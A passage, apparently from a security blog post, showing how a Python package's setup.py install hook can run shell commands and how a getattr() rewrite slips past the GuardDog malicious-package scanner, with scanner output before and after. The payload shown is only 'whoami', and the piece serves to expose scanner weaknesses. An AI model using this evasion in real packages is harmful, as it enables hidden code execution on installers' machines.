 `setup.py:`
```python
...
cmdclass = {'install': Install}

setuptools.setup(
    name="malicious",
    version="1.0.0",
    install_requires=[],
    cmdclass=cmdclass
)
```
```
$ guarddog scan ./dist/malicious-1.0.0.tar.gz
Found 0 potentially malicious indicators scanning ./dist/malicious-1.0.0.tar.gz
```

Now let's try executing some more useful code than just a print statement, such as running a shell command:

```python
def run(self):
    subprocess.run(['whoami'])
```

Uh oh, we've been caught:

```
$ guarddog scan ./dist/malicious-1.0.0.tar.gz
Found 1 potentially malicious indicators in ./dist/malicious-1.0.0.tar.gz

code-execution: found 1 source code matches
  * setup.py file executing code at malicious-1.0.0/setup.py:8
        subprocess.run(['whoami'])
```

But we can bypass that easily as well. The thing about automated scanners is that they always have to balance false positives, which makes them fall apart when faced with a dedicated attacker. GuardDog can detect "common obfuscation methods", but I guess not `getattr()`. The following code obtains the function `subprocess.run()` via the string `run` instead of using the dotted syntax, then executes it like normal:

```python
def run(self):
    getattr(subprocess, 'run')(['whoami'])
```
```
$ guarddog scan ./dist/malicious-1.0.0.tar.gz
Found 0 potentially malicious indicators scanning ./dist/malicious-1.0.0.tar.gz
```

Great! Now we have the ability to execute arbitrary code (including subprocesses) on a developer's laptop.

### Aside: Won't someone notice this malicious code on GitHub?
